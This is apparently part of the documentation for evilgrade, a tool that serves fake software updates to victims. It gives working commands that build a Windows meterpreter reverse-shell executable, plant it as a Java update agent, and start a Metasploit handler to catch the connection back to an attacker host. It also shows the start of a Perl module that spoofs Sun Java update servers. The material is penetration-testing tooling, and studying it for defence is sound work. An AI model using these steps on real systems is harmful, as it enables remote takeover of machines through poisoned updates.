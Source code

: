 In this case for every required update binary we generate a fake update binary with the payload "windows/shell_reverse_tcp"
using a reverse shell to connect at address 192.168.233.2 port 4141.
The label <%OUT%><%OUT> is a special tag to detect where the output binary is going to be generated.
Evilgrade detects the usage of "dynamic fake update binary feature" due to having a sentence between squared brackets '[]'
Inside that brackets we have a string that is also between brackets "" that is compiled using perl.

For example if we use:
```
evilgrade(sunjava)>set agent '["./generatebin -o <%OUT%>/tmp/update".int(rand(256)).".exe<%OUT%>"]'
```
then every time we get a binary request, evilgrade will compile the line and execute the final string "./generatebin -o /tmp/update(random).exe"
generating different agents.


An easy alternative, but not dynamically, could be to generate the payload directly from msfpayload on a terminal and assign it manually to the configuration of the module.

# Example 2:

(Outside evilgrade)
```
[team@faraday]$ msfpayload windows/meterpreter/reverse_ord_tcp LHOST=192.168.100.2 LPORT=4444 X > /tmp/reverse-shell.exe
```

(Inside evilgrade)
```
evilgrade(sunjava)>set agent /tmp/reverse-shell.exe
```

After our payload was generated, we leave a multi handler listening on the previously assigned LHOST.

(Outside evilgrade)
```
[team@faraday]$ msfcli exploit/multi/handler PAYLOAD=windows/shell/reverse_tcp LHOST=192.168.100.2 LPORT=4444 E
[*] Started reverse handler on 192.168.100.2:4444
[*] Starting the payload handler...
```

## .:: [MODULE DEVELOPMENT] ::.

Module development is very simple. Since evilgrade is based on modules, you just have to use a package .pm (perl module).
In this case we are going to describe the sunjava update module (comments with #):

``` perl
package modules::sunjava;

use strict;
use Data::Dump qw(dump);

my $base=
{
    'name' => 'Sun Microsystems Java', #name of the module to display in the framework
    'version' => '2.0', #internal module version
    'appver' => '<= 1.6.0_22', #last application version tested with this evilgrade module
    'author' => [ 'Francisco Amato < famato +[AT]+ faradaysec.com>' ], #author
    'description' => qq{}, #brief description
    'vh' => '(java.sun.com|javadl-esd.sun.com)', #VirtualHosts that the application uses to retrieve information about the update configuration files and update binaries.

    #Then we have the request object's collection
```